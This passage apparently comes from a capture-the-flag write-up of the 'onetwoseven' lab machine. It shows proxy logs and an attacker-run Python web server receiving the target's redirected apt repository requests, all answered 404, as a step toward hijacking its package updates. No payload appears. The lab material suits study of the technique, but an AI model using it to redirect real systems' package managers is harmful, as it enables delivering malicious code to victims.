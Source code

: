 ```
2019-08-26 06:40:13,354 - INFO - _access_log:519 - 10.10.10.133:32792 - GET packages.onetwoseven.htb:80/devuan/dists/ascii/main/binary-all/Packages.bz2 - 404 File not found - 653 bytes                                                                     
2019-08-26 06:40:13,410 - INFO - _access_log:519 - 10.10.10.133:32794 - GET packages.onetwoseven.htb:80/devuan/dists/ascii/main/i18n/Translation-en.bz2 - 404 File not found - 653 bytes                                                                     
2019-08-26 06:40:13,473 - INFO - _access_log:519 - 10.10.10.133:32796 - GET packages.onetwoseven.htb:80/devuan/dists/ascii/main/binary-amd64/Packages.lzma - 404 File not found - 653 bytes                                                                  
2019-08-26 06:40:13,548 - INFO - _access_log:519 - 10.10.10.133:32798 - GET packages.onetwoseven.htb:80/devuan/dists/ascii/main/binary-all/Packages.lzma - 404 File not found - 653 bytes                                                                    
2019-08-26 06:40:13,603 - INFO - _access_log:519 - 10.10.10.133:32800 - GET packages.onetwoseven.htb:80/devuan/dists/ascii/main/i18n/Translation-en.lzma - 404 File not found - 653 bytes                                                                    
2019-08-26 06:40:13,661 - INFO - _access_log:519 - 10.10.10.133:32802 - GET packages.onetwoseven.htb:80/devuan/dists/ascii/main/binary-amd64/Packages.gz - 404 File not found - 653 bytes                                                                    
2019-08-26 06:40:13,715 - INFO - _access_log:519 - 10.10.10.133:32804 - GET packages.onetwoseven.htb:80/devuan/dists/ascii/main/binary-all/Packages.gz - 404 File not found - 653 bytes                                                                      
2019-08-26 06:40:13,768 - INFO - _access_log:519 - 10.10.10.133:32806 - GET packages.onetwoseven.htb:80/devuan/dists/ascii/main/i18n/Translation-en.gz - 404 File not found - 653 bytes                                                                      
2019-08-26 06:40:13,828 - INFO - _access_log:519 - 10.10.10.133:32808 - GET packages.onetwoseven.htb:80/devuan/dists/ascii/main/binary-amd64/Packages.lz4 - 404 File not found - 653 bytes                                                                   
2019-08-26 06:40:13,879 - INFO - _access_log:519 - 10.10.10.133:32810 - GET packages.onetwoseven.htb:80/devuan/dists/ascii/main/binary-all/Packages.lz4 - 404 File not found - 653 bytes                                                                     
2019-08-26 06:40:13,952 - INFO - _access_log:519 - 10.10.10.133:32812 - GET packages.onetwoseven.htb:80/devuan/dists/ascii/main/i18n/Translation-en.lz4 - 404 File not found - 653 bytes                                                                     
2019-08-26 06:40:14,015 - INFO - _access_log:519 - 10.10.10.133:32814 - GET packages.onetwoseven.htb:80/devuan/dists/ascii/main/binary-amd64/Packages - 404 File not found - 653 bytes                                                                       
2019-08-26 06:40:14,071 - INFO - _access_log:519 - 10.10.10.133:32818 - GET packages.onetwoseven.htb:80/devuan/dists/ascii/main/binary-all/Packages - 404 File not found - 653 bytes                                                                         
2019-08-26 06:40:14,127 - INFO - _access_log:519 - 10.10.10.133:32820 - GET packages.onetwoseven.htb:80/devuan/dists/ascii/main/i18n/Translation-en - 404 File not found - 653 bytes  

```

On my webserver, I see a bunch of failed requests for the same files:

```

root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
127.0.0.1 - - [26/Aug/2019 06:40:13] code 404, message File not found
127.0.0.1 - - [26/Aug/2019 06:40:13] "GET /devuan/dists/ascii/InRelease HTTP/1.1" 404 -
127.0.0.1 - - [26/Aug/2019 06:40:13] code 404, message File not found
127.0.0.1 - - [26/Aug/2019 06:40:13] "GET /devuan/dists/ascii/Release HTTP/1.1" 404 -
127.0.0.1 - - [26/Aug/2019 06:40:13] code 404, message File not found
127.0.0.1 - - [26/Aug/2019 06:40:13] "GET /devuan/dists/ascii/main/binary-amd64/Packages.xz HTTP/1.1" 404 -
127.0.0.1 - - [26/Aug/2019 06:40:13] code 404, message File not found
127.0.0.1 - - [26/Aug/2019 06:40:13] "GET /devuan/dists/ascii/main/binary-all/Packages.xz HTTP/1.1" 404 -
127.0.0.1 - - [26/Aug/2019 06:40:13] code 404, message File not found
127.0.0.1 - - [26/Aug/2019 06:40:13] "GET /devuan/dists/ascii/main/i18n/Translation-en.xz HTTP/1.1" 404 -
127.0.0.1 - - [26/Aug/2019 06:40:13] code 404, message File not found
```